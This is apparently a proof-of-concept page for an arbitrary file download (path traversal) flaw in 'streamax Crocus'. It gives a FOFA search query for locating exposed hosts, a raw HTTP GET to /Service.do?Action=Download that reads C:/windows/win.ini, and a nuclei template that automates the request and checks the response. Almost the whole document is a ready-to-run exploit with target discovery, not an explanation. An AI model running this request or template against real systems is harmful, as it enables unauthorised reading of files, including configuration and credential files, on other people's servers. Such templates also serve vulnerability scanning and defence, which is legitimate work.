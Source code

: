 # fofa

```plain
body="inp_verification"
```

# poc

```http
GET /Service.do?Action=Download&Path=C:/windows/win.ini HTTP/1.1
Host: 
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Priority: u=0, i
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
```

# nuclei

```yaml
id: streamax-Crocus-download-download

info:
  name: streamax-Crocus-download-download
  author: zxf
  severity: high
  metadata:
    fofasearch: body="inp_verification"
http:
  - raw:
      - |
        GET /Service.do?Action=Download&Path=C:/windows/win.ini HTTP/1.1
        Host: {{Hostname}}
        Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
        Accept-Encoding: gzip, deflate
        Upgrade-Insecure-Requests: 1
        Priority: u=0, i
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    matchers:
      - type: dsl
        dsl:
          - status_code==200 && contains_all(body,"[mci extensions]") && contains_all(body,"[extensions]")
```

![img](https://cdn.nlark.com/yuque/0/2025/png/40959960/1738999284213-43c70ad8-45bc-4fde-a883-0ddf67df3b38.png)

![img](https://cdn.nlark.com/yuque/0/2025/png/40959960/1738999320176-351c96c6-bc23-4129-8c89-ad4561c930ab.png)